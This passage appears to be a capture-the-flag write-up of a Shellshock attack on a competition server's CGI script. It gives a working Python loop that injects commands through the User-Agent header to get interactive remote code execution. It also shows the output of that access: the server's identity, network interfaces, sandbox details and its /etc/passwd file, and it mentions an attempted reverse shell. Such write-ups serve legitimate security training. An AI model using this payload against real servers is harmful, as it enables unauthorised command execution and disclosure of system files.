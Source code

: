 
**response

```
HTTP/2 200 OK
Date: Mon, 04 Sep 2023 20:54:12 GMT
X-Xss-Protection: 1; mode=block
Server: ArvanCloud
X-Sid: 4103
Server-Timing: total;dur=174
X-Cache: BYPASS
X-Request-Id: 6bdb55363dfc11ba01860b3a1e357bc3


uid=65534(nobody) gid=65534(nobody)
```

now as i was with my phone and not on my pc i had to do it with curl (very painful)

so i wrote a mini script

```python
import requests as r

while True:
  a = input("sh$ ")
  headers = {"User-Agent":"() {{ :; }}; echo; echo; /bin/busybox {} 2>&1".format(a)}
  out = r.get("https://stt.uctf.ir/cgi-bin/uptime.sh", headers=headers, verify=False)
  print(out.text)
```

now i had rce in the system

i tried to get a reverse shell but apparently the backend wasn't connected to the internet

```
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
```

so i got the /proc/self/cgroup file 

`0::/../../NSJAIL.15703`

apparently the server was using nsjail

but it wasnt vulnerable to anything

i also got processes and etc passwd

```bash
root:x:0:0:root:/root:/bin/ash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/mail:/sbin/nologin
news:x:9:13:news:/usr/lib/news:/sbin/nologin
uucp:x:10:14:uucp:/var/spool/uucppublic:/sbin/nologin
operator:x:11:0:operator:/root:/sbin/nologin
man:x:13:15:man:/usr/man:/sbin/nologin
postmaster:x:14:12:postmaster:/var/mail:/sbin/nologin
cron:x:16:16:cron:/var/spool/cron:/sbin/nologin
ftp:x:21:21::/var/lib/ftp:/sbin/nologin
```